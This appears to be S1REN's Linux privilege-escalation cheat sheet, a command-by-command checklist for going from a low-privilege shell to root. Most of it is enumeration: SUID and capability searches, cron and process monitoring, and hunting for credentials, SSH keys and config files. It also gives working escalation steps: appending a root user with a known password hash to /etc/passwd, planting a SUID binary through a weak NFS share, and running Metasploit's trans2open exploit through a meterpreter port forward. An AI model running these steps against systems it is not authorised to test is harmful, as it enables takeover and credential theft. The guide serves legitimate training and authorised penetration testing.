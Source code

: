 S1REN - Linux Privilege Escalation


What's my path to root?  

**g0tmilk's Guide to Linux Privilege Escalation as well:**  
[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  
](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)  
**I just got a low-priv shell !**  
What would S1REN do  _right now_?  
**python**  -c 'import pty; pty.spawn("/bin/bash")'  
OR  
**python3**  -c 'import pty; pty.spawn("/bin/bash")'  
export  **PATH**=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp  
export  **TERM**=xterm-256color  
alias  **ll**='ls -lsaht --color=auto'  
**Ctrl + Z**  [Background Process]  
stty raw -echo  **;**  fg  **;**  reset  
stty columns 200 rows 200

  
**S1REN would say:**  
_Various Capabilities?_  
which  **gcc**  
which  **cc**  
which  **python**  
which  **perl**  
which  **wget**  
which  **curl**  
which  **fetch**  
which  **nc**  
which  **ncat**  
which  **nc.traditional**  
which  **socat**  
  
**Compilation? (**Very Back Burner**)**  
**file**  /**bin**/**bash**  
**uname -a**  
cat /**etc**/***-release**  
cat /**etc**/**issue**  

  
**What Arch?**  
file /bin/bash  
  
**Kernel?**  
uname -a  

**Issue/Release?**  
cat /etc/issue  
cat /etc/***-**release  

**Are we a  _real user_?**  
sudo -l  
ls -lsaht /etc/sudoers  

**Are any users a member of exotic groups?**  
groups <user>

  
**Check out your shell's environment variables...**  
env  
[https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)  

**_Users_?**  
cd /home/  
ls -lsaht

**_Web Configs_  containing credentials?**  
cd /**var**/**www**/**html**/  
ls -lsaht  
  
**_SUID_  Binaries?**  
find  **/**  -perm  **-u=s**  -type f 2>/**dev**/**null**  

**_GUID_  Binaries?**  
find  **/**  -perm  **-g=s**  -type f 2>/**dev**/**null**  
  
**SUID/GUID/SUDO  _Escalation_:**  
[https://gtfobins.github.io/  
](https://gtfobins.github.io/)

**Binary/Languages with "_Effective Permitted_" or "_Empty Capability_" (**ep**):**  
[https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities  
](https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities)Get Granted/Implicit (Required by a Real User) Capabilities of all files recursively throughout the system and pipe all error messages to /dev/null.  
getcap -r / 2>/dev/null

  
**We need to start monitoring the system if possible while performing our enumeration...**  
**In other words:**  
"S1REN...  _Is privilege escalation going to come from some I/O file operations being done by some script on the system?_"  
[https://github.com/DominicBreuker/pspy/blob/master/README.md  
](https://github.com/DominicBreuker/pspy/blob/master/README.md)cd /var/tmp/  
File Transfer  **-->**  pspy32  
File Transfer  **-->**  pspy64  
chmod 755 pspy32 pspy64  
./pspy<32/64>  
  
**What does the local network look like?**  
netstat -antup  
netstat -tunlp  
  
**Is anything vulnerable running as root?**  
ps aux |grep -i 'root' --color=auto  
  
**MYSQL Credentials? Root Unauthorized Access?**  
mysql -uroot -p  
Enter Password:  
root : root  
root : toor  
root :

**S1REN would take a quick look at etc to see if any user-level people did special things:**  
cd /**etc**/  
ls -lsaht  
_Anything other than root here?_  
• Any config files left behind?  
→ ls -lsaht |grep -i ‘.conf’ --color=auto

**• If we have root priv information disclosure - are there any .secret in /etc/ files?**  
→ ls -lsaht |grep -i ‘.secret’ --color=aut  

**SSH Keys I can use perhaps for even further compromise?**  
ls -lsaR /**home**/  

**Quick look in:**  
ls -lsaht /**var**/**lib**/  
ls -lsaht /**var**/**db**/  
  
**Quick look in:**  
ls -lsaht /**opt**/  
ls -lsaht /**tmp**/  
ls -lsaht /**var**/**tmp**/  
ls -lsaht /**dev**/**shm**/  

**File Transfer Capability? What can I use to transfer files?**  
which wget  
which curl  
which nc  
which fetch (BSD)  
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

**NFS? Can we exploit weak NFS Permissions?**  
cat /**etc**/**exports**  
no_root_squash?  
[https://recipeforroot.com/**attacking-nfs-shares**/  
](https://recipeforroot.com/attacking-nfs-shares/)  
**[On Attacking Machine]**  
mkdir -p /**mnt**/**nfs**/  
mount  **-t**  nfs  **-o**  **vers**=<version 1,2,3>  **$IP:**<NFS Share> /**mnt**/**nfs**/  **-nolock**  
gcc suid.c  **-o**  suid  
cp suid /**mnt**/**nfs**/  
chmod u+s /**mnt**/**nfs**/**suid**  
su <user id matching target machine's user-level privilege.>  
  
**[On Target Machine]**  
user@host$ ./suid  
**#**

**_Where can I live on this machine?_  Where can I read, write and execute files?**  
/**var**/**tmp**/  
/**tmp**/  
/**dev**/**shm**/

**Any exotic file system mounts/extended attributes?**  
cat /**etc**/**fstab**  
  
**Forwarding out a weak service for root priv (with meterpreter!):**  
Do we need to get a meterpreter shell and forward out some ports that might be running off of the Loopback Adaptor (127.0.0.1) and forward them to any (0.0.0.0)? If I see something like Samba SMBD out of date on 127.0.0.1 - we should look to forward out the port and then run trans2open on our own machine at the forwarded port.  
[https://www.offensive-security.com/metasploit-unleashed/portfwd/](https://www.offensive-security.com/metasploit-unleashed/portfwd/)  
  
**Forwarding out netbios-ssn EXAMPLE:**  
**meterpreter>**  portfwd add –l 139 –p 139 –r [target remote host]  
**meterpreter>**  background  
use exploit/linux/samba/trans2open  
set RHOSTS 0.0.0.0  
set RPORT 139  
run  
  
**Can we write as a low-privileged user to /etc/passwd?**  
openssl passwd -1  
i<3hacking  
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.  
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd  
su siren  
id  
  
**Cron.**  
crontab –u root –l  
  
**Look for unusual system-wide cron jobs:**  
cat /etc/**crontab**  
ls /etc/**cron.***  

**Bob is a user on this machine. What is every single file he has ever created?**  
find / -user  **miguel**  2>/dev/null  

**Any mail?**  **mbox in User $HOME directory?**  
cd /**var**/**mail**/  
ls -lsaht  
  
**Linpease**:  
[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS  
](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)  
**Traitor:**  
[https://github.com](https://github.com/liamg/traitor)[/](https://github.com/liamg/traitor)[liamg/traitor  
](https://github.com/liamg/traitor)  
**GTFOBins:**  
[https://gtfobins.github.io/](https://gtfobins.github.io/)  
  
**PSpy32/Pspy64:**  
[https://github.com/DominicBreuker/pspy/blob/master/README.md](https://github.com/DominicBreuker/pspy/blob/master/README.md)
